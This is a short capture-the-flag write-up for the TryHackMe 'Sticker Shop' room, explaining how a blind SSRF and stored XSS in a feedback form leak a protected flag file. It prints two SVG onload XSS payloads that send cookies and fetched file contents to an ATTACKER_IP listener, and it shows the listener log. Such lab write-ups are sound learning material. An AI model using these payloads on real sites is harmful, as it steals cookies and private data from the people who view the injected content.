

> [!info]
> - [The Sticker Shop](https://tryhackme.com/room/thestickershop)
> - Difficulty: easy
> - Platform: web
>
> Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!
>
> Can you read the flag at `http://MACHINE_IP:8080/flag.txt`?

Small room to practice web pentesting. Vulnerabilities explored:

- Server-Side Request Forgery
- Cross-Site Scripting

 

## Information gathering

Accessing `http://MACHINE_IP:8080/flag.txt` returns a 401 Unauthorized error.

Web app running on port 8080 has a feedback page at `http://MACHINE_IP:8080/submit_feedback`:



Typically, information that something will be checked by the staff points to a potential attack vector.

## Getting flag via blind SSRF + XSS

First, I confirmed that there is a XSS vulnerability by sending feedback with SVG pinging my server:

```html
<svg/onload=body.appendChild(document.createElement`script`).src='http://ATTACKER_IP:5000?c='+document.cookie hidden/>
```

My server got the ping, but it didn't contain cookies, which I thought I would use to access the flag resource from my side. So, I changed the payload to cause a blind SSRF, get the flag value on the user side, and send it to my server:

```html
<svg onload="fetch('http://MACHINE_IP:8080/flag.txt').then(response=>response.text()).then(flag=>{const s=document.createElement('script');s.src='http://ATTACKER_IP:5000?k='+encodeURIComponent(flag);document.body.appendChild(s)});" hidden></svg>
```

Received flag is URL encoded, don't forget to decode it afterwards:

```bash
$ python3 -m http.server 5000
...SNIP...

MACHINE_IP - - [07/Apr/2025 15:41:12] "GET /?k=THM%7B83REDACTEDe6%7D HTTP/1.1" 200 -
```
